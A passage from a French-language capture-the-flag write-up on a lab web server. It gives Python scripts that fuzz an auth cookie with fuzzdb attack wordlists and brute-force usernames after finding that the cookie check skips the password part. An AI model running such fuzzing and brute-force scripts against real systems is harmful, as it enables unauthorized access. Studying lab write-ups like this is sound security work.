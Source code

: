 Après un bon moment, force est de constater qu'on n'est pas sur la bonne voie.

Pour l'autre possibilité je n'ai pas fait dans la dentelle en injectant toutes les wordlists `fuzzdb` d'attaque :

```python
import sys
import codecs
from base64 import b64encode
from glob import glob

import requests

def rot13(s: str) -> str:
    return codecs.encode(s, "rot-13")

def create_cookie(s: str) -> str:
    s = "guest:" + s
    return b64encode(s.encode(encoding="utf-8", errors="ignore")).decode()

sess = requests.session()


def process_filename(filename: str):
    global sess
    with open(filename, encoding="utf-8", errors="ignore") as fd:
        for line in fd:
            payload = line.strip()
            response = sess.get(
                    "http://192.168.56.177:8080/",
                    headers={"Cookie": f'auth="{create_cookie(payload)}"'}
            )
            if len(response.content) != 626 or response.status_code != 200:
                print("="* 30)
                print(response.status_code)
                print(payload)
                print(response.text)
                print("="* 30)


for filename in glob("fuzzdb/attack/**/*.txt"):
    print(filename)
    process_filename(filename)
```

Aucune injection n'a été détectée, mais ça a permis de mettre en évidence une vulnérabilité : si le cookie n'a pas la partie ROT13 (donc juste `guest:` ou même `guest`) alors l'authentification fonctionne tout de même.

Par conséquent, il n'est plus question de bruteforcer un mot de passe, mais un nom d'utilisateur :

```python
import sys
from base64 import b64encode

import requests

sess = requests.session()
with open(sys.argv[1], encoding="utf-8", errors="ignore") as fd:
    for line in fd:
        username = line.strip()
        payload = b64encode(username.encode()).decode()
        response = sess.get("http://192.168.56.177:8080/", headers={"Cookie": f'auth="{payload}";'})
        if len(response.content) != 626 or response.status_code != 200:
            print("=" * 30)
```